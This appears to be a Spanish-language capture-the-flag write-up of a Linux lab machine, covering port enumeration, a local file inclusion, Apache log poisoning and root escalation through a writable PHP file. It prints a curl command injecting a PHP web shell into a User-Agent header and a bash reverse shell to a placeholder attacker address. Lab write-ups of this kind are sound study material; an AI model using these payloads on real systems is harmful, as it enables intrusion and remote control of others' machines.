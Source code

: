 - Tags: #LFI #logPoisoning #logs #PortEnumeration #linux 
_____
una maquina algo curiosa, empezamos con el reconocimiento basico de los puertos con nmap, para posteriormente aplicar un script basico de reconocimiento que nos proporciona nmap.

tenemos variedad de puertos abiertos, en los que destacan los puertos: **21, 22, 25, 80, 139, 445, 2121, 3128, 8593, 54787, 62524**.

verificamos cada uno y vemos que podemos observar que nos pueda llevar a una vulnerabilidad.

en el puerto ftp (21) no encontramos gran cosa, incluso no vulnerable a credenciales de invitado como lo es **anonymous **

en el puerto 22 (SSH) no tendrá mayor relevancia en esta maquina, lo descartamos.

investigando el puerto 80 nos encontramos lo siguiente.
____
![](attachment/040fa0c29c0b3a352597977e4fe01e30.png)
____
lo que se observa como phpIPAM 1.4 se investigo con searchsploit y en efecto tiene vulnerabilidades pero no aplican en este caso.

aun nos quedan puerto por ver y por verificar pero el que realmente nos interesa en el 8593, puesto que es un servidor web el cual se compone de la siguiente manera.
___
![](attachment/efd98bcb8430462f554b7a771d13f0c9.png)
___
contamos con dos recursos, los cuales despliegan la siguiente URL.
____
![](attachment/e4b97fb27e3a999e85cf6811097a5b63.png)
____
lo que podemos verificar si se acontece un LFI **(local file inclusion)**, probamos a leer el **/etc/passwd** y vemos que sucede.
___
![](attachment/54998929f7601e50624e581b67bea33b.png)
____
vemos que podemos leer el archivo por lo que tenemos que convertir el LFI a un RCE, podemos investigar los logs y ver cuales están disponible.

guiándonos por el wappalyzer  vemos que contamos con apache2 y la ruta de los log para apache2 es la siguiente **/var/log/apache2/access.log**. 
___
![](attachment/fe117784650995a3545ab680eff89bf6.png)
___
y podemos visualizar los logs. por lo que ahora procedemos a envenenar los logs para asi poder ejecutar comando remotos. 

nos podemos ayudar del comando curl y con el siguiente comando poder envenenar el log.

`curl -s -X GET "http://192.168.0.105/testlog" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"`
___
![](attachment/c6521f4b64392f6f5dd02dba58188992.png)
___
enviamos lo petición y en teoría podremos ejecutar comando.

así que con la siguiente reverse shell nos podremos mandar una conexión a nuestra maquina la cual estará a la escucha con netcat.

```bash
bash -c "bash -i >%26 /dev/tcp/<direccion_ip>/<puerto> 0>%261"
```

una vez dentro de la maquina debemos estabilizar la tty y escalar privilegios, así que empezamos.
___
aplicamos sudo -l y vemos que nos pide contraseña, buscamos entonces por los binarios `find \-perm -4000 2>/dev/null`

y vemos que aparece.
___
![](attachment/1c6a226a59d6aa1641cd4170d9a6528d.png)
___
el siguiente archivo es de interés ya que en su interior cuenta con un archivo index.php en el cual tenemos permisos de escritura y ejecución.

verificando con el comando **ps -faux** el cual nos muestra una lista completa de todos los procesos en ejecución en el sistema. podremos ver lo siguiente.
___
![](attachment/584d1d9ffabc4d0d5cb17b663c568842.png)
____
1. **Línea 2**: `/bin/sh -c /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/`
    
    - **Usuario**: `root`
    - **PID**: `381`
    - **%CPU**: `0.0`
    - **%MEM**: `0.0`
    - **VSZ**: `2388`
    - **RSS**: `764`
    - **TTY**: `?` (no tiene terminal asociada)
    - **STAT**: `Ss` (estado del proceso; `S` significa que está durmiendo y `s` indica que es un líder de sesión)
    - **START**: `13:07`
    - **TIME**: `0:00`
    - **COMMAND**: `/bin/sh -c /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/`
    
    Esta línea muestra un proceso de shell (`/bin/sh`) que está ejecutando un comando para iniciar un servidor PHP embebido (`/usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/`). Este comando inicia un servidor PHP en la dirección `127.0.0.1` en el puerto `57`, sirviendo archivos desde el directorio `/var/tmp/sv/`.
___
por que se deduce que si el comando lo esta ejecutando root y nosotros como usuarios no privilegiados podemos leer, modificar y ejecutar el archivo, entonces podemos modificar la estructura del mismo para poder asi ganar privilegio root.
___
![](attachment/084c2de25f838ee7fce490cd3c8553b6.png)
____
por lo que una vez que lo modifiquemos realizamos una petición al localhost con el puerto que maneja el servidor, en este caso es el puerto 57. posteriormente aplicamos bash -p y ya tendríamos un usuario root.

fin.....